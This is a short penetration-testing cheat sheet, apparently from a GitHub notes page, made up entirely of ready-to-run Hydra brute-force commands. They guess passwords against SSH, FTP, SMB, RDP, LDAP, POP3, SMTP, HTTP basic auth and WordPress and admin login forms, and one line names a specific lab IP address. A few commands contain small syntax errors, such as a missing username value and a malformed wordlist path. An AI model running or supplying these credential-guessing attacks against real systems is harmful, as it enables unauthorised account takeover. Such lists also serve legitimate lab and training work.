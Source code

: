 hydra -P password-file.txt -v $ip snmp 	Hydra brute force against SNMP

hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp 	Hydra FTP known user and rockyou password list

hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh 	Hydra SSH using list of users and passwords

hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh 	Hydra SSH using a known password and a username list

hydra $ip -s 22 ssh -l -P big_wordlist.txt 	Hydra SSH Against Known username on port 22

hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V 	Hydra POP3 Brute Force

hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V 	Hydra SMTP Brute Force


### Basic Auth protected attack(Browser mei joh login ata hai thats 401 attack type) ### 


hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin 	Hydra attack http get 401 login with a dictionary




hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip 	Hydra attack Windows Remote Desktop with rockyou

hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb 	Hydra brute force SMB user with rockyou:

hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' 	Hydra brute force a Wordpress admin login

hydra -L usernames.txt -P passwords.txt $ip smb -V -f 	SMB Brute Forcing

hydra -L users.txt -P passwords.txt $ip ldap2 -V -f 	LDAP Brute Forcing


## Common:
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.196.110 -V http-form-post '/admin:user=^USER^&pass=^PASS^:F=Username or password invalid'
